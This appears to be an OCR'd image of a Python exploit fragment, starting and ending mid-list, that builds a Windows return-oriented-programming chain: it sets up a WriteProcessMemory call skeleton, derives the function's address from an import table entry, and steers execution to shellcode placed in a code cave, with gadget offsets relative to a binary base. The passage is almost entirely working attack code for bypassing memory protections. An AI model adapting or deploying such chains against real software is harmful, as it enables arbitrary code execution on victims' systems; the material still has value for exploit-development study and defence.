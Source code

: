 ```python
	0x41414141, # WriteProcessMemory address (IAT WriteFile + offset)
	codecave,   # Shellcode Return Address
	0xffffffff, # Pseudo process handle to current process (-1)
	codecave,   # Code cave address (write where)
	0x42424242, # dummy lpBuffer (write what) 
	0x43434343, # dummy nSize
	writeable,  # lpNumberOfBytesWritten
]

rop_setup = [
	# Get a pointer to the skeleton
	0x4CBFB + binary_base,  # pop eax (will be dereferenced by a side effect gadget)
	writeable,
	0x683da + binary_base,  # push esp ; add dword [eax], eax ; pop ecx; ret; 
	0x704F4 + binary_base,  # pop eax; ret;
	0x4bb2d + binary_base,  # 0x448 (offset to skeleton on stack)
	0x2bb8e + binary_base,  # mov eax, dword ptr [eax]; ret;
	0x7609f + binary_base,  # add eax, 4; ret;
	0x3039f + binary_base,  # mov edx, eax; mov eax, esi; pop esi; ret;
	0x41414141,
	0x31564 + binary_base, 	# sub ecx, edx; cmp ecx, eax; sbb eax, eax; inc eax; pop ebp; (add offset to skeleton, ecx holds ptr to skeleton now) 
	0x41414141,

	# Write WriteProcessMemory address to skeleton+0
	0x704F4 + binary_base,	# pop eax; ret;
	0x9015C + binary_base,	# IAT CreateFile
	0x2BB8E + binary_base,  # mov eax, dword ptr [eax] // dereference IAT to get lib ptr
	0x636a2 + binary_base, 	# pop edx; ret;
	0xfffee370, 			# -00011c90, offset from WriteFile to WriteProcessMemory
	0x59a05 + binary_base, 	# sub eax, edx; pop ebp; ret;
	0x41414141,
	0x7ab35 + binary_base, 	# mov dword ptr [ecx], eax; pop ebp; ret;

	# Move skeleton pointer ahead 
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0; 4
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0; 8
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0; 12
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0;
	0x0582b + binary_base, # inc ecx; ret 0; 16
	0x0582b + binary_base,

	# Write shellcode address to skeleton dummy value
	0x16238 + binary_base, # mov eax, ecx; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
```
